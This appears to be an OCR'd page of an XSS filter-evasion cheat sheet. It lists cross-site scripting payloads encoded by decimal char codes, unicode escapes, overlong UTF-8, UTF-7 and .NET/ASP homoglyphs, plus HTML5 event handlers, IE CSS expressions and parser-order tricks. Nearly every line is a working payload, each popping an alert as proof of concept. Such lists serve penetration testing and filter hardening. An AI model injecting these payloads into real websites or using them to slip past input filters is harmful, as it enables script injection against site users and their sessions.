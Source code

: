 ```html

JavaScript (Decimal char codes)
<script>document.write('<img src=1 onerror=alert(1)>');</script>
<script>document.write(String.fromCharCode(60,105,109,103,32,115,114,99,61,49,32,111,110,101,114,114,111,114,61,97,108,101,114,116,40,48,41,62));</script>

JavaScript (Unicode function and variable names)
<script>alert(123)</script>
<script>\u0061\u006C\u0065\u0072\u0074(123)</script>

Overlong UTF-8 (SiteMinder is awesome!)
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2

<img src="1" onnerror="alert(1)">
%E0%80%BCimg%20src%3D%E0%80%A21%E0%80%A2%20onerror%3D%E0%80%A2alert(1)%E0%80%A2%E0%80%BE

UTF-7 (Missing charset?)
<img src="1" onerror="alert(1)" />
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-

Unicode .NET Ugliness
<script>alert(1)</script>
%uff1cscript%uff1ealert(1)%uff1c/script%uff1e

Classic ASP performs some unicode homoglyphic translations... don't ask why...
<img src="1" onerror="alert('1')">
%u3008img%20src%3D%221%22%20onerror%3D%22alert(%uFF071%uFF07)%22%u232A

Useless and/or Useful features.

HTML 5 (Not comphrensive)
<video src="http://www.w3schools.com/html5/movie.ogg" onloadedmetadata="alert(1)" />
<video src="http://www.w3schools.com/html5/movie.ogg" onloadstart="alert(1)" />

Usuage of non-existent elements (IE)
<blah style="blah:expression(alert(1))" />

CSS Comments (IE)
<div style="z:exp/*anything*/res/*here*/sion(alert(1))" />

Alternate ways of executing JavaScript functions
<script>window['alert'](0)</script>
<script>parent['alert'](1)</script>
<script>self['alert'](2)</script>
<script>top['alert'](3)</script>

Split up JavaScript into HTML attributes
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>

HTML is parsed before JavaScript
<script>
var junk = '</script><script>alert(1)</script>';
</script>

HTML is parsed before CSS
<style>
body { background-image:url('http://www.blah.com/</style><script>alert(1)</script>'); }
</style>

XSS in XML documents [doctype = text/xml] (Firefox, Chrome, Safari).
```
